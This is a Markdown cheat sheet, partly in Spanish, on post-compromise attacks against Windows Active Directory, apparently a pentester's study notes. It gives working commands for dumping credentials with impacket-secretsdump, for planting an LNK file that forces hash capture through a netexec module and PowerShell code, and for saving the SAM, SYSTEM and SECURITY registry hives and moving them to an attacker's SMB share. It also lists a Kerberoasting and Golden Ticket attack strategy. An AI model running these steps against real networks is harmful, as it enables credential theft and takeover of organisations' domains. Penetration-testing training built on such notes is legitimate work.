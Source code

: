 # Windows Active Directory Pentesting

## Post compromise attacks

- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `impacket-secretsdump DC.LOCAL/USER:'PASSWORD'@$IP`
    - running secretsdump as local:
        - `impacket-secrestsdump -sam sam.save -security security.save -system system.save LOCAL`
- [Kerberoasting](./kerberoasting.md)
- [ASREPRoasting](./ASREPRoasting.md)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - [mimikatz](./mimikatz.md)
    - [pypykatz](./pypykatz.md)
    - [Golden Ticket Attack](./goldenTicketAttack.md)
        - [Extra sids Attack](./extraSidsAttack.md)
    - [AddKeyCredentialLink/Shadow Credentials Attack](./addKeyCredentialLink.md)
    - [Backup Operator to Domain Admin](./backupOperatorToDomainAdmin.md)
- [LNK File Attacks](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf): `netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
``` 

### Post compromise attack strategy
- 1st
    - [kerberoasting](./kerberoasting.md)
    - [ASREPRoasting](./ASREPRoasting.md)
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### An other post compromise attack strategy
#### Attacking SAM
- [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)
##### Copying SAM Registry Hives
- hklm\sam
- hklm\system
- hklm\security
- We can create backups of these hives using the reg.exe utility.

#### Using reg.exe save to copy registry hives.
 ```
 C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with impacket-smbserver
`impacket-smbserver -smb2support shareName someDir`

#### Moving hive copies to share
```
C:\> move sam.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move security.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move system.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.
```
